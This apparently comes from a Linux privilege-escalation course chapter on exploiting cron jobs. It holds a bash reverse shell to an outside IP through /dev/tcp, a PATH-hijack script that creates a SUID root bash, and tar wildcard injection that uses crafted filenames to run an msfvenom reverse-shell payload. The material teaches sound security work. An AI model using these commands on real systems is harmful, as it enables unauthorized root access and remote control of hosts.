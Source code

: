 # 7. Cron jobs

### Introduction

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.

Cron jobs run with the security level of the user who owns them.

By default, cron jobs are run using the /bin/sh shell, with limited environment variables.



### Crontabs

Cron table files (crontabs) store the configuration for cron jobs.

User crontabs are usually located in **/var/spool/cron/** or **/var/spool/cron/crontabs/**

The system-wide crontab is located at **/etc/crontab**.



### File Permissions

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation.

If we can write to a program or script which gets run as part of a cron job, we can replace it with our own code.

1. View the contents of the system-wide crontab:
   * ```bash
     $ cat /etc/crontab
     ...
     * * * * * root overwrite.sh
     * * * * * root /usr/local/bin/compress.sh
     ```
2. Locate the **overwrite.sh** file on the server:
   * ```bash
     $ locate overwrite.sh
     /usr/local/bin/overwrite.sh
     ```
3. Check the file’s permissions:
   * ```bash
     $ ls -l /usr/local/bin/overwrite.sh
     -rwxr--rw- 1 root staff 40 May 13 2017 /usr/local/bin/overwrite.sh
     ```
   * Note that the file is world writable
4. Replace the contents of the overwrite.sh file with the following:
   * ```bash
     #!/bin/bash
     bash -i >& /dev/tcp/192.168.1.26/53 0>&1
     ```
5. Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:



### PATH Environment Variable

The crontab PATH environment variable is by default set to **/usr/bin:/bin**

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:
   * ```bash
     $ cat /etc/crontab
     ...
     PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
     ...
     * * * * * root overwrite.sh
     * * * * * root /usr/local/bin/compress.sh
     ```
   * Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.
2. Create the file overwrite.sh in /home/user with the following contents:
   * ```bash
     #!/bin/bash
     cp /bin/bash /tmp/rootbash
     chmod +s /tmp/rootbash
     ```
3. Ensure that overwrite.sh is executable:
   * ```bash
     $ chmod +x /home/user/overwrite.sh
     ```
4. Wait for the cronjob to run (this job in particular runs every minute).
5. Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:
   * ```bash
     $ /tmp/rootbash –p
     rootbash-4.1# id
     uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
     groups=0(root) ...
     ```



### Wildcards

When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.

This process replaces the wildcard with a space-separated list of the file and directory names in the current directory.

An easy way to see this in action is to run the following command from your home directory:

```bash
$ echo *
```

#### Wildcards and Filenames

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.

The following commands should show how this works:

```bash
$ ls *
% touch ./-l
$ ls *
```

Filenames are not simply restricted to simple options like -h or --help.

In fact we can create filenames that match complex options:

```
--option=key=value
```

[GTFOBins](https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purposes.

1. View the contents of the system-wide crontab
   * ````bash
     $ cat /etc/crontab
     ...
     * * * * * root /usr/local/bin/compress.sh
     	```
     ````
2. View the contents of the /usr/local/bin/compress.sh file
   * ```bash
     $ cat /usr/local/bin/compress.sh
     #!/bin/sh
     cd /home/user
     tar czf /tmp/backup.tar.gz *
     ```
   * Note that the tar command is run with a wildcard in the /home/user directory
3. GTFOBins shows that tar has command line options which can be used to run other commands as part of a checkpoint feature.
4. Use msfvenom to create a reverse shell ELF payload:
   * ```bash
     $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=53 -f elf -o shell.elf
     ```
5. Copy the file to the /home/user directory on the remote host and make it executable:
   * ```bash
     $ chmod +x /home/user/shell.elf
     ```
6. Create two files in the /home/user directory
   * ```bash
     $ touch /home/user/--checkpoint=1
     $ touch /home/user/--checkpoint-action=exec=shell.elf
     ```
7. Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:
   * ```bash
     # nc -nvlp 53
     listening on [any] 53 ...
     connect to [192.168.1.26] from (UNKNOWN) [192.168.1.25] 47362
     bash: no job control in this shell
     root@debian:~# id
     id
     uid=0(root) gid=0(root) groups=0(root)
     ```

